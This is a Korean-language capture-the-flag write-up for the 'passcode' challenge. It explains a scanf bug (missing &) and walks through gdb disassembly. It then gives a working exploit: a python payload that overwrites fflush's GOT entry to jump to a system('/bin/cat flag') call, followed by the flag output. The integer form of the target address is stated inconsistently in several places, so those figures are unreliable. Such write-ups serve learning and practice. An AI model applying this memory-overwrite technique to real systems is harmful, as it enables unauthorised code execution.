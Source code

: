 #passcode
---

c코드는 다음과 같다.

    #include <stdio.h>
    #include <stdlib.h>
    
    void login(){
    	int passcode1;
    	int passcode2;
    
    	printf("enter passcode1 : ");
    	scanf("%d", passcode1);
    	fflush(stdin);
    
    	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    	printf("enter passcode2 : ");
    	scanf("%d", passcode2);
    
    	printf("checking...\n");
    	if(passcode1==338150 && passcode2==13371337){
    		printf("Login OK!\n");
    		system("/bin/cat flag");
    	}
    	else{
    		printf("Login Failed!\n");
    		exit(0);
    	}
    }
    
    void welcome(){
    	char name[100];
    	printf("enter you name : ");
    	scanf("%100s", name);
    	printf("Welcome %s!\n", name);
    }
    
    int main(){
    	printf("Toddler's Secure Login System 1.0 beta.\n");
    
    	welcome();
    	login();
    
    	// something after login...
    	printf("Now I can safely trust you that you have credential :)\n");
    	return 0;	
    }

`login()`에서 `scanf()`함수 부분에 passcode1과 passcode2에 &가 붙어있지 않다는 사실을 알 수 있다.

때문에 `login()`에 있는 `scanf()`로는 passcode1과 passcode2의 값을 바꿀 수 없다. 하지만 `welcome()`에서 100개의 문자를 받기 때문에 여기서 미리 값을 써놓으면 된다.

---

gdb를 통해서 분석해보자.

    (gdb) disas welcome
    Dump of assembler code for function welcome:
    ...
       0x08048625 <+28>:	call   0x8048420 <printf@plt>
       0x0804862a <+33>:	mov eax,0x80487dd
       0x0804862f <+38>:	lea edx,[ebp-0x70]
       0x08048632 <+41>:	mov DWORD PTR [esp+0x4],edx
       0x08048636 <+45>:	mov DWORD PTR [esp],eax
       0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
    ...   
    End of assembler dump.

`welcome()`에서 보면 **ebp-0x70**이 name의 위치인 것을 알 수 있다.

    (gdb) disas login
    Dump of assembler code for function login:
    ...
       0x08048572 <+14>:	call   0x8048420 <printf@plt>
       0x08048577 <+19>:	mov eax,0x8048783
       0x0804857c <+24>:	mov edx,DWORD PTR [ebp-0x10]
       0x0804857f <+27>:	mov DWORD PTR [esp+0x4],edx
       0x08048583 <+31>:	mov DWORD PTR [esp],eax
       0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
    ...
       0x080485a0 <+60>:	call   0x8048420 <printf@plt>
       0x080485a5 <+65>:	moveax,0x8048783
       0x080485aa <+70>:	mov edx,DWORD PTR [ebp-0xc]
       0x080485ad <+73>:	mov DWORD PTR [esp+0x4],edx
       0x080485b1 <+77>:	mov DWORD PTR [esp],eax
       0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
    ...
    End of assembler dump.

또 `login()`에서 보면 **ebp-0x10**와 **ebp-0xc**가 각각 passcode1과 passcode2인 것을 알 수 있다. `welcome()+38`, `login()+24`, `login()+70`에 각각 break를 걸고 주소를 확인해보면 다음과 같다.

    (gdb) r
    Starting program: /home/passcode/passcode 
    Toddler's Secure Login System 1.0 beta.
    
    Breakpoint 1, 0x0804862f in welcome ()
    (gdb) p/x $ebp-0x70
    $1 = 0xff8e46a8
    (gdb) c
    Continuing.
    enter you name : sjy0175
    Welcome sjy0175!
    
    Breakpoint 3, 0x0804857c in login ()
    (gdb) p/x $ebp-0x10
    $2 = 0xff8e4708
    (gdb) c
    Continuing.
    enter passcode1 : 0101 
    
    Program received signal SIGSEGV, Segmentation fault.
    0xf7583bc7 in _IO_vfscanf () from /lib/i386-linux-gnu/libc.so.6
    (gdb) p/x $ebp-0xc
    $3 = 0xff8e469c

이때 세번째 주소는 segmentation fault가 뜬시점에서 ebp값을 기준으로 계산된 주소이기 때문에 유효하지 않다. passcode2의 주소를 passcode1+0x4로 계산한다면 각각의 주소는 다음과 같다.

**name: 0xff8e46a8** <br>
**passcode1: 0xff8e4708** <br>
**passcode2: 0xff8e470c**

바로 passcode1과 passcode2의 값을 덮으면 좋을텐데, 0xff8e4708-0xff8e46a8=0x60이기 때문에 100개의 문자만 받아서 passcode1의 데이터만 바꿀 수 있다. 하지만 passcode1의 데이터를 바꾸어 놓으면 passcode1의 데이터를 받을 때 원하는 주소에 원하는 값을 쓸 수 있게 된다.

---

이를 이용해서 다음과 같이 익스플로잇 할 것이다. name을 쓸 때를 이용해서 passcode1에 `fflush()`의 got주소를 넣고, passcode1을 입력 받을 때 `fflush()`의 got에 `login()`에서 `system("/bin/cat flag")`를 실행하는 부분의 주소를 쓸 것이다. 이를 위해서 `fflush()`와 `login()`에서 `system()`부분의 주소를 구해보자.

    (gdb) x/i 0x8048430
       0x8048430 <fflush@plt>:	jmp*0x804a004


    (gdb) disas login
    Dump of assembler code for function login:
    ...
       0x080485e3 <+127>:	mov DWORD PTR [esp],0x80487af
       0x080485ea <+134>:	call   0x8048460 <system@plt>
    ...
    End of assembler dump.

때문에 다음과 같이 입력하면 된다.

**'A'\*96+'\x04\xa0\x04\x08'** <br>
**1345141547**

134514157는 `system()`부분의 주소인  0x80485e3를 정수형태로 변환한 것이다.

    passcode@prowl:~$ (python -c "print 'A'*96+'\x04\xa0\x04\x08'";cat) | ./passcode
    Toddler's Secure Login System 1.0 beta.
    enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
    134514147
    Sorry mom.. I got confused about scanf usage :(
    enter passcode1 : Now I can safely trust you that you have credential :)

**flag: Sorry mom.. I got confused about scanf usage :(**



?passcode1 passcode2 위치가 바뀌어야 하지 않는가?